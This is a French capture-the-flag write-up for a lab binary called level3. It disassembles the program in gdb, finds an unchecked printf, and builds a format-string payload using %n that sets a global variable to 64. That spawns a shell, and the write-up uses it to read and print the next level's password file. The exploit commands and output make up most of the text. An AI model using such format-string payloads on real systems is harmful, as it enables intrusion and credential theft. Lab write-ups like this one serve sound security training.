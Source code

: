 #level3

$./level3
test
test

Level3 attend un input et ensuite l'affiche.

Regardons un peu plus en détail.

$ gdb level3

> disas main

Dump of assembler code for function main:
0x0804851a <+0>: push %ebp
0x0804851b <+1>: mov %esp,%ebp
0x0804851d <+3>: and $0xfffffff0,%esp
0x08048520 <+6>: call 0x80484a4 <v>
0x08048525 <+11>: leave
0x08048526 <+12>: ret
End of assembler dump.

On voit qu'il appelle la fonction v.

Regardons v de plus près:

> disas v
> Dump of assembler code for function v:
> 0x080484a4 <+0>: push %ebp
> 0x080484a5 <+1>: mov %esp,%ebp
> 0x080484a7 <+3>: sub $0x218,%esp
> 0x080484ad <+9>: mov 0x8049860,%eax
> 0x080484b2 <+14>: mov %eax,0x8(%esp)
> 0x080484b6 <+18>: movl $0x200,0x4(%esp)
> 0x080484be <+26>: lea -0x208(%ebp),%eax
> 0x080484c4 <+32>: mov %eax,(%esp)
> 0x080484c7 <+35>: call 0x80483a0 <fgets@plt>
> 0x080484cc <+40>: lea -0x208(%ebp),%eax
> 0x080484d2 <+46>: mov %eax,(%esp)
> 0x080484d5 <+49>: call 0x8048390 <printf@plt>
> 0x080484da <+54>: mov 0x804988c,%eax
> 0x080484df <+59>: cmp $0x40,%eax
> 0x080484e2 <+62>: jne 0x8048518 <v+116>
> 0x080484e4 <+64>: mov 0x8049880,%eax
> 0x080484e9 <+69>: mov %eax,%edx
> 0x080484eb <+71>: mov $0x8048600,%eax
> 0x080484f0 <+76>: mov %edx,0xc(%esp)
> 0x080484f4 <+80>: movl $0xc,0x8(%esp)
> 0x080484fc <+88>: movl $0x1,0x4(%esp)
> 0x08048504 <+96>: mov %eax,(%esp)
> 0x08048507 <+99>: call 0x80483b0 <fwrite@plt>
> 0x0804850c <+104>: movl $0x804860d,(%esp)
> 0x08048513 <+111>: call 0x80483c0 <system@plt>
> 0x08048518 <+116>: leave
> 0x08048519 <+117>: ret
> End of assembler dump.

On voit que la fonction compare le contenu d'une variable à un 64 (0x40) avant d'executer la commande system.

Observons la variable comparée:

> x/s 0x804988c
> 0x804988c <m>: ""

On ne voit pas m dans la fonction.

Essayons de trouver m dans les globales:

> info variables

All defined variables:

Non-debugging symbols:
0x080485f8 _fp_hw
0x080485fc \_IO_stdin_used
0x08048734 **FRAME_END**
0x08049738 **CTOR_LIST**
0x08049738 **init_array_end
0x08049738 **init_array_start
0x0804973c **CTOR_END**
0x08049740 **DTOR_LIST**
0x08049744 **DTOR_END**
0x08049748 **JCR_END**
0x08049748 **JCR_LIST**
0x0804974c \_DYNAMIC
0x08049818 \_GLOBAL_OFFSET_TABLE_
0x0804983c **data_start
0x0804983c data_start
0x08049840 **dso_handle
0x08049860 stdin@@GLIBC_2.0
0x08049880 stdout@@GLIBC_2.0
0x08049884 completed.6159
0x08049888 dtor_idx.6161
0x0804988c m

m est donc une variable globale.

On doit reussir a initaliser m avec la valeur 64.

On voit qu'avant la comparaison, v appelle printf sans la securissé.

Donc on va profiter de ça.

Avec %x on va pouvoir remonter la stack et voir dans quelle adresse est écrit le buffer.

$ echo "AAAA %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520

Donc le buffer est écrit dans la 4eme case de la stack dans "41414141".

On doit changer cette adresse pour 0x0804988c l'adresse de m.

$ python -c 'print "\x8c\x98\x04\x08" + "%x %x %x %x %x"' | ./level3
�200 b7fd1ac0 b7ff37d0 804988c 25207825

On va utiliser %n qui va ecrire dans l'adresse le nombre de bytes écrits, 4 bytes dans le cas présent. Il en manque donc 60, on va les rajouter et raccourcir la commande au passage.

$ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!

$ (python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"'; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
